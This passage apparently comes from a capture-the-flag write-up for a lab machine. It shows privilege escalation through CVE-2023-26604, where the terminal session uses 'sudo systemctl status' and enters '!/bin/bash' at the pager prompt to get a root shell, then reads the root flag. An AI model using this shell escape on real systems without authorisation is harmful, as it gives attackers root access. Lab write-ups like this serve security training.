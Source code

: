 Checking the systemctl version we found out that the version is vulnerable to CVE-2023-26604:

```shell
systemctl --version
```

```bash
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```

Write "systemd 245 (245.4-4ubuntu3.22) cve" on google:

https://access.redhat.com/security/cve/cve-2023-26604

https://www.suse.com/security/cve/CVE-2023-26604.html

We can exploit it running it as sudo and then entering !/bin/bash after RETURN message:

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# whoami
whoami
root
```

### Root Flag

Now we can get the root.txt flag:

```shell
cat /root/root.txt
```